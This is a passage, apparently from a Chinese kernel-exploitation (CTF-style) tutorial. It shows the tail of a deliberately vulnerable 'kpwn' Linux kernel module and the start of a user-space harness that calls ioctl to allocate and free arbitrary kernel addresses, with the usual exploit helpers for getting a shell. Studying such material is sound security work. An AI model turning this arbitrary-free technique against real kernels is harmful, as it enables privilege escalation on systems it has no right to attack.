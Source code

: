 ```

void kpwn_exit(void)
{
    printk(KERN_INFO "Goodbye hackern");
    misc_deregister(&amp;misc);
}
module_init(kpwn_init);
module_exit(kpwn_exit);
```

然后写个交互脚本

```
#define _GNU_SOURCE
#include "exp.h"

#define ADD_ANY 0xbeef
#define DEL_ANY 0x2333

struct in_args{
    u64 addr;
    u64 size;
    char *buf;
};

void init(){
    save_status();
    setbuf(stdin,0);
    setbuf(stdout,0);
    signal(SIGSEGV, sh);
}
int main(int argc,char **argv){
    init();
    char *buf=malloc(0x1000);
    u64 *buf64 =(u64 *)buf;
    struct in_args *p = malloc(sizeof(struct in_args));

    int op=0;
    u32 addsize=1024;

    int fd = open("/dev/kpwn",O_RDWR);
    logx("fd",fd);
    u64 freeaddr=0;

    while(1){
        printf("1.mallocn");
        printf("2.freen");
        printf("3.exitn");
        printf("&gt;&gt; ");
        scanf("%d",&amp;op);
        switch(op){
            case 1:
                p-&gt;addr=0;
                p-&gt;size=addsize;
                p-&gt;buf=buf;
                ioctl(fd,ADD_ANY,p);
                loglx("kmalloc: ",buf64[0]);
                break;
            case 2:
                printf("free addr: ");
                scanf("%lx",&amp;freeaddr);
                loglx("read ",freeaddr);
                p-&gt;addr=freeaddr;
                ioctl(fd,DEL_ANY,p);
```